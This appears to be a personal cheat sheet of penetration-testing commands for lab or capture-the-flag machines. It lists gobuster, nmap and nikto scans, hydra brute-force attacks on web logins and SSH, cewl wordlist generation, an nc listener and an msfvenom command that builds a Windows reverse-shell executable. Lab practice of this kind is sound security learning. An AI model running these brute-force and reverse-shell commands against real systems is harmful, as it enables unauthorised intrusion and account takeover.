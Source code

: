 # CLI Toolset

## gobuster
Site discovery
```console
gobuster -u http://fakebank.com -w wordlist.txt dir
```
```console
gobuster -u http://$IP -w wordlist.txt -x php,sh,txt,cgi,html,js,css,py
```

## nmap
```console
nmap -sC -sV -oN nmap/initial $IP
```
Silence discovery:
```console
nmap -sS MACHINE_IP
```
Ping Scan: Allows scanning the live hosts in the network without going deeper and checking for ports services etc. Usage:
```console
nmap -sn MACHINE_IP
```
Operating System Scan: Allows scanning of the type of OS running on a live host. Usage: 
```console
nmap -O MACHINE_IP
```
Detecting Services: Get a list of running services on a live host. Usage: 
```console
nmap -sV MACHINE_IP
```

## nikto
Webserver vuln. disc.
```console
nikto -host $IP:80
```

## hydra
Bruteforce

```console
hydra -l '' -P 3digits.txt -f -v MACHINE_IP http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

```console
hydra -l alexander -P /usr/share/wordlists/rockyou.txt ssh://MACHINE_IP -V
```

```console
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt -f -v 10.10.66.58 http-post-form "/login.php:username=^USER^&password=^PASS^&sub=Login:Invalid username or password." -s 80
```

## crunch
Password list generator

## cewl

```console
cewl -d 2 -m 5 -w passwords.txt http://MACHINE_IP --with-numbers
```

## nc

```console
nc -lnvp 4444
```

## msfvenom

A command-line payload generation tool

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe
```
